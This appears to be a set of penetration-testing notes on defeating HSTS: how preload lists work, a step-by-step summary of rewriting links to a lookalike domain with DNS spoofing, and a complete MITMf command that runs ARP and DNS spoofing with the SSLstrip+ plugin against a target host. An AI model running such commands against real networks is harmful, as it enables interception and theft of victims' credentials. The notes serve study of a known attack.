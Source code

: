 #### preload lists
This attack works fine if the victim tried the connection to the web site For the first time.
This happens because the web browser does not know whether or not to use a secure connection, since it never received the HSTS header.
In order to defeat this issue, web browser implemented the so called 'preload lists', which contain sites that have to be accesses with a secure connection, even if its the first time.

#### resources about HSTS
https://src.chromium.org/viewvc/chrome/trunk/src/net/http/transport_security_state_static.json
https://blog.mozilla.org/security/2012/11/01/preloading-hsts/
https://src.chromium.org/viewvc/chrome/trunk/src/net/http/transport_security_state_static.json
https://support.microsoft.com/en-us/kb/3071338


#### HSTS Bypass
	https://github.com/singe/sslstrip2
	https://github.com/byt3bl33d3r/MITMf

#### Attack Summary
1. The victim goes to google.com (not in the HSTS preload list)
2. We (attacker) intercept the traffic and change the links in the web page. For example we change accounts.google.com to acccounts.google.com 
3. The victim makes a DNS request For the domain acccounts.google.com
4. We intercept the request, forward the real DNS request and respond to the victim with a fake domain and the IP address.

Since the domain is different (its acccounts with 3 'c') the browser will continue the communication via HTTP
To know more about the bypass:
	https://www.youtube.com/watch?v=Q3siIqS9LVA

### MITMf tool
```python
python mitmf.py -h
```

Some options:
```
-i = interface to listen on
--spoof = this allows to redirect traffic using arp, icmp, dhcp or dns spoofing
--arp = redirect traffic using ARP spoofing
--dns = proxy/modify DNS queries
--hsts = load plugin 'SSLstrip+'
--gateway = specify the gateway IP
--targets = specify hosts to poison
```


```python
python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway 192.168.102.2 --targets 192.168.102.149
```


